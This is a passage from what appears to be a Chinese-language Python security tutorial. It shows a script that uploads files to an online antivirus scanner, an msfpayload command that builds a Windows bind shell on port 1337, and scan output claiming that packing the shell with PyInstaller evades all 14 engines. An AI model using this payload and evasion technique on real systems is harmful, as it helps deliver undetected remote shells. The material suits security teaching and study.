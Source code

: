 ```py
def main():
    parser = optparse.OptionParser('usage%prog -f <filename>')
    parser.add_option('-f', dest='fileName', type='string', help='specify filename')
    (options, args) = parser.parse_args()
    fileName = options.fileName
    if fileName == None:
        print(parser.usage)
        exit(0)
    elif os.path.isfile(fileName) == False:
        print('[+] ' + fileName + ' does not exist.')
        exit(0)
    else:
        loc = uploadFile(fileName)
        printResults(loc)
if __name__ == '__main__':
    main() 
```

让我们先来测试一个已知的恶意软件来验证杀毒程序是否能成功的检测出来。我们将建立一个 Windows TCP 绑定 shell 绑定 TCP 的 1337 端口。使用 Metasploit 默认的编码器，我们将编码它为一个标准的 Windows 可执行程序。注意结果，我们能看到 14 个杀毒引擎中有 10 个检测出该文件是恶意的，这个文件很明显不能躲避杀毒软件的检测：

```py
attacker$ msfpayload windows/shell_bind_tcp LPORT=1337 X > bindshell.exe
Created by msfpayload (http://www.metasploit.com).
Payload: windows/shell_bind_tcp
Length: 341
Options: {"LPORT"=>"1337"}
attacker$ python virusCheck.py –f bindshell.exe
[+] Uploading file to NoVirusThanks...
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
[+] Scan Complete.
[+] Detection rate: 10 on 14 (71%) 
```

然而，运行我们的检测脚本针对我们用 Python 脚本编译的可执行程序，我们可以看到 14 个杀毒引擎都检测失败。成功！我们可以用一点 Python 完全的躲避杀毒引擎。

```py
C:\Users\victim\pyinstaller-1.5.1>python.exe virusCheck.py -f
bindshell\dist\bindshell.exe
[+] Uploading file to NoVirusThanks...
[+] Scan Complete.
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
[+] Detection rate: 0 on 14 (0%) 
```
